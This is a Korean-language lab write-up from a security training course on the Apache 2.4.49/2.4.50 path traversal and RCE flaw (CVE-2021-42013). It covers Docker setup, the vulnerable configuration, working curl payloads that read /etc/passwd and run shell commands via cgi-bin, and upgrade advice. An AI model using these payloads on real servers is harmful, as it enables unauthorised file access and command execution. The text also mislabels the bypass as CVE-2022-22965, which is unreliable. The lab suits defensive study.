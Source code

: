 # Apache HTTP Server 2.4.50의 Path traversal과 파일 접근 취약점 (CVE-2021-42013)

> 화이트햇 스쿨 3기 - [32반 이규민] ([@karajann](https://github.com/dmrmam))

## 요약
Apache HTTP Server 2.4.49 및 2.4.50 버전에서 발견된 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점입니다. 이 취약점은 이전에 발견된 CVE-2021-41773의 불완전한 패치로 인해 발생하였으며, 공격자가 웹 루트 디렉토리 외부의 파일에 접근하거나, 특정 조건 하에서 원격으로 코드를 실행할 수 있게 합니다.​

## 환경설정
```
docker compose build
docker compose up -d
```
시작 된 후 localhost:8080 에서 Apache HTTP Server `It works!` 페이지를 볼 수 있습니다.

## 설정 조건
- httpd.conf 파일에서 특정 디렉토리에 대해 Require all granted로 설정되어 있거나, Require 지시어가 누락된 경우
- mod_cgi 모듈이 활성화되어 있고, 해당 디렉토리에서 CGI 스크립트 실행이 허용된 경우

## PoC
이전에 CVE-2021-41773 에서 경로 정규화 처리를 제대로 하지 못하기 때문에 `%2e` ( URL 인코딩된 `.`)을 활용한 Path traversal 우회가 가능했습니다.
- ex: http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

패치 이후에도 이 취약점은 완벽하지 않았고, CVE-2022-22965 에서는
더블 인코딩 (`.%%32%65` -> `.%%65` -> `.e`)를 사용해 다시 우회가 가능합니다.

- `/icons/`는 실제로 존재해야 우회가 가능합니다

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](1.png)

서버에 CGI 또는 CGID 모듈이 켜져 있다면, 이 Path traversal을 통해 원격 코드 실행(RCE)이 가능해 임의의 명령을 실행할수 있습니다

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](2.png)

## 정리
이 취약점은 `CVSS: 9.8`점의 치명적인 취약점으로써 인증 없이도 파일 유출과 원격 코드 실행이 가능합니다.
해결방안으로는 Apache 서버를 `2.4.51`이상 버전으로 즉시 업그레이드를 하거나 필요하지 않은 경우
`mod_cgi`혹은 `mod_cgid`를 비활성화 시킴으로써 패치가 가능합니다.
